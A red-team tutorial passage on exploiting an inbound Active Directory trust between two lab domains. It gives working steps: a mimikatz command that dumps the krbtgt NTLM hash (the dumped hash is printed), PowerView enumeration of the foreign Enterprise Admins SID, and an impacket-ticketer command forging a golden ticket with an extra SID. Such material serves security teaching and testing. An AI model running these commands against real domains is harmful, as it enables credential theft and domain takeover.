 # Exploiting Inbound Trusts

As a preliminary example, let's assume that we're utilizing the same trust from the last section. This means that `dan-feliciano.dev` has a one-way inbound trust with the foreign domain `dan-feliciano.pro`.

We can exploit this using a few Impacket tools which are present by default on the latest versions of Kali Linux, so we'll use those to start. However we'll need a few assets in order to do this:

* The `NTLM` hash of the `krbtgt` domain object on our current domain, `dan-feliciano.dev`.
* The `dan-feliciano.dev` domain object SID.
* The `dan-feliciano.pro` domain object SID.

As explained previously, the objects in our domain can be given access to any of the resources that are present in `dan-feliciano.pro`. We can start by getting the assets above and by enumerating a few of the objects on the remote domain such as the `Enterprise Admins` foreign group.

To start, we can grab both the `NTLM` hash and the `dan-feliciano.dev` domain SID by using `mimikatz` on the domain that we already control. If you haven't used `mimikatz` before, it's an extremely helpful tool used to dump domain information from registry in the post-exploitation phase of your red-teaming procedure. You can find the link to `mimikatz` in this GitHub repo [here](https://github.com/ParrotSec/mimikatz).

```
PS C:\Users\daz\Documents> .\mimikatz.exe "privilege::debug" "lsadump::lsa /user:krbtgt /patch" "exit"
```

This output from `mimikatz` should give us both the NTLM hash of the `krbtgt` user along with the domain SID, to which I'll include in a list to prevent clutter.
* `krbtgt` NTLM hash - `b84a08b41bd7e5e7f3708d0166d61bb1`
* `DAZ - dan-feliciano.dev` domain SID - `S-1-5-21-878395754-674829726-1647362892`

Next, we'll use another `PowerView` cmdlet that allows us to view the `Enterprise Admins` group amongst the foreign domain and all it's relative properties. The object that we're looking at is the `MemberName` entry, which should contain the respective SID that we're looking for.

```
PS C:\Users\daz\Documents> Get-DomainForeignGroupMember -Domain dan-feliciano.pro

GroupDomain             : dan-feliciano.pro
GroupName               : Enterprise Admins
GroupDistinguishedName  : CN=Enterprise,CN=Admins,CN=Builtin,DC=daz,DC=pro
MemberDomain            : dan-feliciano.pro
MemberName              : S-1-5-21-492758473-538291874-1904739281-519
MemberDistinguishedName : CN=S-1-5-21-492758473-538291874-1904739281-519,CN=ForeignSecurityPrincipals,DC=daz,DC=pro
```

Now that we have all the information, we can progress with our exploit.

```
daz@daz$ impacket-ticketer -nthash b84a08b41bd7e5e7f3708d0166d61bb1 -domain-sid S-1-5-21-878395754-674829726-1647362892 -extra-sid S-1-5-21-492758473-538291874-1904739281-519 -domain (trusting_domain) Administrator
```
